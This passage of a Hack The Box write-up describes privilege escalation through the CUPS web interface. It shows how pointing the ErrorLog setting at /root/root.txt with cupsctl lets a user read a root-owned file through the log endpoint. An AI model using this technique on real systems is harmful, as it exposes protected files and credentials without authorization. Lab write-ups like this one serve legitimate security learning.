Usually this process is a `CUPS` web interface, we can verify by launching a curl request. (If you are running Linux in your machine you might have it also)

```console
curl "http://localhost:631/"
```

## Privilege escalation

A possible way to read server files is using the error log from `CUPS`. Error logs from the CUPS can be accessed using:

```console
curl http://localhost:631/admin/log/error_log
```

`CUPS` runs using root, so it is possible to access root files.

The error log is reading the error file and we can verify it using:

```console
cupsctl
```

We just need to update it...

```console
cupsctl ErrorLog="/root/root.txt"
```

And then, we launch the curl again to see the flag.

## Maintaining access

Not needed as we are talking of a HTB machine...

## Covering tracks

Not needed as we are talking of a HTB machine...
